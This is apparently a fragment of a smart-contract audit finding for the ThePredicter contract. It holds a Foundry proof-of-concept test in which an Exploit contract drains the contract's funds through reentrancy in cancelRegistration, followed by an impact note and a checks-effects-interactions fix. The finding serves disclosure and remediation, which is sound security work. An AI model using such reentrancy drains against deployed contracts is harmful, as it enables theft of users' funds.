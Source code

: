 import "forge-std/Test.sol";\
import "../src/ThePredicter.sol";\
import "../src/Exploit.sol";

contract ThePredicterTest is Test {\
ThePredicter public thePredicter;\
Exploit public exploit;\
address public owner = address(1);\
uint256 public entranceFee = 0.04 ether;

```Solidity
function setUp() public {
    vm.deal(owner, 1 ether);
    vm.startPrank(owner);

    thePredicter = new ThePredicter(entranceFee);
    exploit = new Exploit(address(thePredicter));

    vm.stopPrank();
}

function testExploit() public {
    // Fund the ThePredicter contract
    vm.deal(address(thePredicter), 1 ether);

    // Start the attack
    vm.startPrank(owner);
    exploit.attack{value: entranceFee}();

    // Ensure the exploit contract drained the funds
    assertGt(address(exploit).balance, 1 ether);
    assertEq(address(thePredicter).balance, 0);
    vm.stopPrank();
}
```

}

Impact: Users who have registered and paid the entrance fee can have their funds stolen by an attacker. This undermines trust in the contract and its security.

## Tools Used

Manual Review

Foundry

## Recommendations

To fix the vulnerability, update the state before making any external calls: following CEI

`function cancelRegistration() public {`\
`if (playersStatus[msg.sender] == Status.Pending) {`\
`playersStatus[msg.sender] = Status.Canceled;`\
`(bool success, ) = msg.sender.call{value: entranceFee}("");`\
`require(success, "Failed to withdraw");`\
`return;`\
`}`\
`revert ThePredicter__NotEligibleForWithdraw();`\
`}`
